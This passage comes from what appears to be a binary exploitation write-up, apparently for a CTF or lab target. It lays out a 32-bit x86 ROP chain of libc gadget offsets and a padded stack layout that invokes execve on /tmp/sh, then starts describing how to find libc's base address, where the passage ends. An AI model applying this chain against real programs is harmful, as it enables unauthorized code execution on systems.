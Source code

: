 As a first step, I tried to find the exact instructions that I needed but I had no luck. So then we need to find instructions that achieve what we want to do, and then fight any side-effects (spoiler alert again: there were). Keep in mind that we also have the stack available for use, so we can inject any data that we are missing or can't find in memory, giving us more options with regards to available gadgets.

I am not going to bore you with the exact process, so here's the final ROP chain:

```arm
0x1a9e   : pop edx ; ret					                    # setup the stack to contain 0x00 and pop to edx 
0x3900e  : and al, 8 ; add esp, 0xc ; ret			            # esp skips over our /tmp/sh data on the stack
0xc24f7  : push esp ; xor eax, eax ; pop ebx ; pop ebp ; ret	# moving esp to ebx
0x12acce : dec ebx ; ret 					                    # repeated a few times to get correct ebx value
0xcaf24  : add ecx, ebx ; ret					                # set ecx = ebx for pointer to NULL
0x97193  : mov eax, 0xb ; int 0x80 				                # syscall
```

For this to work, we need the input (and by proxy the stack) to look like this:

```
 ________________ < ebp - 0x4c
|  padding       |
 ________________ < ebp
| 0x1a9e         | <- pop edx ; ret
 ________________ 
|\x00\x00\x00\x00| <- value of edx
 ________________ 
| 0x3900e        | <- and al, 8 ; add esp, 0xc ; ret
 ________________ 
| /tmp           | <- skip over this (esp + 0x4)
 ________________ 
| /sh\x00        | <- skip over this (esp + 0x8)
 ________________ 
|\x00\x00\x00\x00| <- skip over this (esp + 0xc)
 ________________ 
| 0xc24f7        | <- push esp ; xor eax, eax ; pop ebx ; pop ebp
 ________________ 
|\x00\x00\x00\x00| <- this goes onto ebp, side-effect
 ________________ 
| 0x12acce       | <- dec ebx -- repeated 9 times, so that the gadget executes 9 times, used to setup ebx to point to /tmp/sh
 ________________ 
| 0xcaf24        | <- make ecx point to \x00\x00\x00\x00 because it needs to be a pointer to NULL
 ________________ 
| 0x12acce       | <- dec ebx  -- repeated 7 times, so that the gadget executes 7 times
 ________________ 
| 0x97193        | <- mov eax, 0xb ; int 0x80
```

Right, almost there! The last thing we need to do now is find out where libc is loaded in memory when the binary runs. Notice that the gadget instructions above are *relative* offsets into libc, so to get their absolute address and use them we must compute for each one the value `libc_base + gadget_libc_offset`. We will need to inspect the processe's process memory maps for this:
